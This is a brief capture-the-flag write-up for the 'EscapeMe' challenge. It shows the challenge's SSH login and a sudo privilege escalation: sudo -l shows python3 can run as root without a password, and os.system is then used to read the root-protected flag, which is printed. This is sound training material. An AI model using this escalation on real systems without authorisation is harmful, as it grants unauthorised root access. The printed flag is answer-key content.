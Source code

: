 ## EscapeMe (100 points)

#### Solved by hieplpvip

```
Can you escape me!

ssh ctf@61.28.237.24 -p30402 password: hcmus-ctf

author: pakkunandy

p/s: the flag.txt is in the /home/ctf. If it is not exist. Please wait and then login again.
```

Let's check what we can run as root:

```
$ sudo -l
Matching Defaults entries for ctf on escapeme-5c599b968f-gwjcv:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User ctf may run the following commands on escapeme-5c599b968f-gwjcv:
    (ALL) NOPASSWD: /usr/bin/python3
```

We can run `python3` as root without password. We will use this to get the flag:

```
$ sudo python3
Python 3.6.9 (default, Jan 26 2021, 15:33:00)
[GCC 8.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.system("cat /home/ctf/flag.txt")
HCMUS-CTF{privilege_escalation_is_fun!!!}
```

**Flag:** `HCMUS-CTF{privilege_escalation_is_fun!!!}`
